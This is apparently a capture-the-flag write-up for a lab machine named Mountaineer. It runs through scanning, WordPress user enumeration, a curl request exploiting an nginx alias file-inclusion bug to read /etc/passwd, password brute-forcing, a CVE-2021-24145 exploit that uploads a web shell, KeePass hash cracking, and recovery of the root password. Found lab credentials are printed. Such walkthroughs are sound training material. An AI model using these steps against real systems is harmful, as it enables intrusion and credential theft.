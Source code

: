 Started with a nmap scan
```
22 OpenSSH 8.9p1 Ubuntu
80 nginx 1.18.0
```
Started a gobuster scan `2.2-medium` 
```
/wordpress
/wordpress/images
/wordpress/index.php
/wordpress/wp-content
/wordpress/wp-login.php
/wordpress/license.txt
/wordpress/wp-includes
/wordpress/readme.html
/wordpress/wp-traceback.php
/wordpress/wp-admin
/wordpress/xmlrpc.php
```
The site has a domain with it `mountaineer.thm` 
wordpress version `6.4.3` 
Ran wpscan found some usernames
```
admin
everest
montblanc
chooyu
k2
```
Did not find any subdomains 
Its vulnerable to Alias LFI we can find this on hacktricks 
`curl http://mountaineer.thm/wordprress/imagess../etc/passwd` 
and we have LFI now looking at the config file for the nginx server we find a subdomain `adminroundcubemail.mountainner.thm` giong to the wordpress site use cewl to make a wordlist and we have used wpscan to get a list of users and we can use hydra to bruteforce logins and we got login for the roundcube `k2:k2` 
```
Possibale passwords
th3_tall3st_password_in_th3_world
```
we can send a password reset for the user `k2` and now we have access to the wordpress panel and we can use `CVE-2021-24145` have to get the full syntax right `python3 poc.py -t domain -P 80 -U /wordpress/ -u k2 -p 'password'` and now there is a poney shell uploaded we can get a reverse shell with this looking around there is alot of users we can get back to the `k2` user with the same login from roundcube and if we go to the `lhotse` user there is a keepass file I got it to my machine and we can use `keepass2john` to make it a crack able hash we now need to make a custom wordlist with the tool cupp and it cracked to `Lhotse56185` we now we have the creds for the user `kangchenjunga` and now that we are this user looking at the historey file there is the root password